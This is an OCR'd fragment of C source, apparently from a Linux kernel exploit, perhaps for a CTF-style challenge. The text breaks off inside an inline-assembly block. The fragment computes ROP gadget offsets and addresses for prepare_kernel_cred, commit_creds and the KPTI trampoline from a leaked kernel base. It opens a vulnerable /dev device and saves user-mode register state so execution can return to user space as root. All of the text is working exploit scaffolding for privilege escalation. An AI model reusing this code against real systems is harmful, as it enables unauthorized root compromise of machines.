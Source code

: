 ```c
    pop_rax_pop_rdi = kbase + 0x5e0360;
    pop_r11_mov_cl_qword_rax = kbase + 0x406e0f;
    push_rax_call_rcx  = kbase + 0x72c38c;
    ret = kbase + 0x1B134F9;
    
    find_task_by_vpid = kbase + 0x3BB5C0;
    prepare_kernel_cred = kbase + 0x3C9A00;
    commit_creds = kbase + 0x3C9740;
    kpti_trampoline = kbase + 0x11bc;

    printf("[*] pop rdi: 0x%lx\n", pop_rdi);
    printf("[*] pop rax: 0x%lx\n", pop_rax);
    printf("[*] pop rcx: 0x%lx\n", pop_rcx);
    printf("[*] pop rax pop rdi: 0x%lx\n", pop_rax_pop_rdi);
    printf("[*] pop r11 mov cl qword ptr rax: 0x%lx\n", pop_r11_mov_cl_qword_rax);
    printf("[*] push rax call rcx: 0x%lx\n", push_rax_call_rcx);
    printf("[*] ret: 0x%lx\n", ret);

    printf("[*] find_task_by: 0x%lx\n", find_task_by_vpid);
    printf("[*] prepk_creds: 0x%lx\n", prepare_kernel_cred);
    printf("[*] commit_cred: 0x%lx\n", commit_creds);
    printf("[*] kpti_trampo: 0x%lx\n", kpti_trampoline);

    puts("[*] Offsets fixed");
}

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

void open_dev(char *name){
  char devname[100] = "/dev/";
  strcat(devname, name);
  printf("[*] Opening name: %s\n", devname);
  global_fd = open(devname, O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
    puts("[*] Opened device");
    printf("[*] Global fd: %d\n", global_fd);
    }
}

uint64_t user_mode_cs, user_ss, user_rflags, user_sp, user_rbp;

void save_state(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov ax, cs;"
        "mov user_mode_cs, ax;"
        "mov ax, ss;"
        "mov user_ss, ax;"
        "mov user_sp, rsp;"
        "mov user_rbp, rbp;"
        "pushfq;"
        "pop rax;"
        "mov user_rflags, rax;"
        ".att_syntax;"
        : "=m"(user_mode_cs), "=m"(user_ss), "=m"(user_sp), "=m"(user_rflags)
        :
        : "rax", "memory"
```